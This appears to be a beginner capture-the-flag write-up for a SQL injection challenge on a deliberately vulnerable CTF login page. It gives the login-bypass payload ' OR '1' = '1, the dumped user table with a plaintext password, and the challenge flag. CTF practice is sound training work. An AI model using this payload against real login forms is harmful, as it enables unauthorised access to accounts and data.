 # SQL injection -  1 - The Most Basic Form of Injection. (3)

## Challenge
SQL injection is probably one of the most common vectors of attack for poorly designed websites. 
This page is vulnerable to it. You can use username test and password test if you want to test 
the page before the injection.
<br>
<a href="https://beginnersqli.hfctf.ca/">Use that vulnarable website</a>

## Steps
1. Username : `test`
2. Password : `' OR '1' = '1`

| userId | username |	  userpass   |
| ------ | -------- | ------------ |
|   1 	 |  sp00ky 	| SwibAPCMuj34 |

I use that <a href="https://youtu.be/cx6Xs3F_1Uc">tutorial</a> on Youtube.
<br>
This is another interesting SQL injection <a href="https://www.guru99.com/learn-sql-injection-with-practical-example.html">tutorial</a>.

## Flag
`HF-2wqkd1mdilwseoukimf2vfdqa5dmq9w6`
